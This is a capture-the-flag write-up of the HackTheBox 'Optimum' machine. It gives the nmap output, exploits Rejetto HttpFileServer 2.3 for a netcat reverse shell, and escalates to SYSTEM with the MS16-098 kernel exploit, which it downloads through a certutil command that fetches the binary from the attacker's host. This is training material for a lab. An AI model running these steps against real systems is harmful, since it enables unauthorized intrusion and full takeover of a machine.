 
# HackTheBox : Optimum

This is a simple Windows machine running `HttpFileServer 2.3` which is vulnerable to remote code execution. The privelege escalation is quite simple with using kernel exploit as it seems the only way.

## Information Gathering

### Port Scan

```zsh
nmap -sS -sC -v -p- 10.10.10.8
```

```console
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-04 01:38 EDT
NSE: Loaded 121 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 01:38
Completed NSE at 01:38, 0.00s elapsed
Initiating NSE at 01:38
Completed NSE at 01:38, 0.00s elapsed
Initiating Ping Scan at 01:38
Scanning 10.10.10.8 [4 ports]
Completed Ping Scan at 01:38, 0.25s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 01:38
Completed Parallel DNS resolution of 1 host. at 01:38, 0.00s elapsed
Initiating SYN Stealth Scan at 01:38
Scanning 10.10.10.8 [65535 ports]
Discovered open port 80/tcp on 10.10.10.8
SYN Stealth Scan Timing: About 5.79% done; ETC: 01:47 (0:08:25 remaining)
SYN Stealth Scan Timing: About 17.12% done; ETC: 01:44 (0:04:55 remaining)
Stats: 0:01:20 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 25.66% done; ETC: 01:43 (0:03:49 remaining)
SYN Stealth Scan Timing: About 38.19% done; ETC: 01:42 (0:02:56 remaining)
SYN Stealth Scan Timing: About 47.26% done; ETC: 01:43 (0:02:35 remaining)
SYN Stealth Scan Timing: About 59.56% done; ETC: 01:42 (0:01:55 remaining)
SYN Stealth Scan Timing: About 73.21% done; ETC: 01:42 (0:01:13 remaining)
SYN Stealth Scan Timing: About 81.33% done; ETC: 01:43 (0:00:57 remaining)
Completed SYN Stealth Scan at 01:43, 298.90s elapsed (65535 total ports)
NSE: Script scanning 10.10.10.8.
Initiating NSE at 01:43
Completed NSE at 01:43, 7.29s elapsed
Initiating NSE at 01:43
Completed NSE at 01:43, 0.00s elapsed
Nmap scan report for 10.10.10.8
Host is up (0.22s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE
80/tcp open  http
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: HFS /

NSE: Script Post-scanning.
Initiating NSE at 01:43
Completed NSE at 01:43, 0.00s elapsed
Initiating NSE at 01:43
Completed NSE at 01:43, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 307.18 seconds
           Raw packets sent: 131270 (5.776MB) | Rcvd: 199 (8.740KB)

```

## Enummeration 

### Discovery

From the nmap we could determine there was only a webapp at port 80.I started enumerating it.
```gobuster``` didnot give any results. 

![Webapp at port 80](./images/webapp.png)

On a little more enumeration. I found a basic login page but since we have no usernames, I just tried a few default credentials and that is all. I simply started looking more about this 
```HttpFileServer 2.3```


```zsh
searchsploit Rejetto
```
![searchsploit](./images/searchsploit.png)

I used the one highlighted in the picture above i.e. ```39161.py```. 

Now, on reading how to use the exploit,the following instructions stood out. 


>EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
> You may need to run it multiple times for success!

**What is the exploit doing ?**

Mindlessly trying out exploits in not something which will take you a long way. Let's try to break it down a bit. Please open the exploit side by side to follow what I am saying.

- ```vbs``` variable is basically downloading the nc.exe which we will host at our kali machine
- ```vbs2``` variable is using cscript.exe which is a command-line version of the Windows Script Host that provides command-line options for setting script properties. With Cscript.exe, you can run scripts by typing the name of a script file at the command prompt
- ```vbs3``` varaible is basically running nc .exe with the cmd.exe, our local ip and port as arguments so we can get the reverse shell back

## Exploitation

Now, that we have chosen out exploit, let's get cracking. Move nc.exe into your working dir.
>Note If you donot have seclists installed.
>Here is the link https://github.com/danielmiessler/SecLists
>if you are using kali linux then this should do the trick ```apt -y install seclists```


Copy the nc.exe to your work folder 

```zsh
locate nc.exe
cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```
Copy the exploit to your work folder

```zsh
cp /usr/share/exploitdb/exploits/windows/remote/39161.py .
```
Edit the exploit according to your LHOST and LPORT in ```ip_addr``` and ```local_port```

![Edit the exploit](./images/exploit_edit.png)



Start the python server where you have the nc.exe

```zsh
python -m SimpleHTTPServer 80
```
Start the listener port specified in the exploit

```zsh
nc -lvnp 443
```
Execute the exploit

```zsh
python 39161.py 10.10.10.8 80
```
Meanwhile, you can ensure that your exploit is working by this

![File downloaded](./images/hosted_nc.exe.png)

Now when you look at the ```port 443``` listener. We will have the user(kostas) shell.

![User Shell](./images/intial_shell.png)

Accessing the first flag.

***User Flag***

![User Flag](./images/userflag.png)

If I try to open the Administrator folder, it will say "Access denied". So, we have to do some privilege escalation

## Privilege Escalation

Whenever I have an intial shell, I always check my privileges and system info

```cmd
whoami /priv
system info
```
![System information](./images/systeminfo.png)

We note that OS and build versions so as to find a proper priv-esc method.

I try to avoid using kernel exploits generally, I did enumerate it manually as much as I could and did not find anything juicy, So I tried using the ```windows exploit suggester```

>Here is the link for download : https://github.com/AonCyberLabs/Windows-Exploit-Suggester

**A lot of newer kali had issues with it, so you can try the following**

```zsh 
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
```
Execute this in the folder where you downloaded the above file.

```zsh
python get-pip.py
```

Then,
```zsh
 pip install xlrd
```
Now, you are good to go.

Copy the systeminfo output and paste it in the folder of ```Windows exploit suggester```

```zsh
python windows-exploit-suggester.py --update
```
An xls db would be downloaded use it as a refernce for the db to search against

```zsh
python windows-exploit-suggester.py --systeminfo systeminfo.txt --database  2020-05-04-mssb.xls
```
![Windows Exploit Suggester](./images/exploit_suggester.png)

Now after reading through a few, I decided to got with ```MS16-098```.

To download the binary for this exploit you can download it from here :
>https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098

Or you can get it from the repo mentioned inside the exploit.I have added the exe in my github link for this box.
Now we have to upload this binary. Place it in the same folder where you hosted the nc.exe file and we will use certutil to upload

```cmd
certutil.exe -urlcache -split -f http://10.10.14.10:80/41020.exe 41020.exe
```
Simply execute it and you will have a shell with System privilges

![Shell with System privileges](./images/system_shell.png)

***Root Flag***

![Root Flag](./images/rootflag.png)

That is all for this box. See you in the next one which is "Bastard".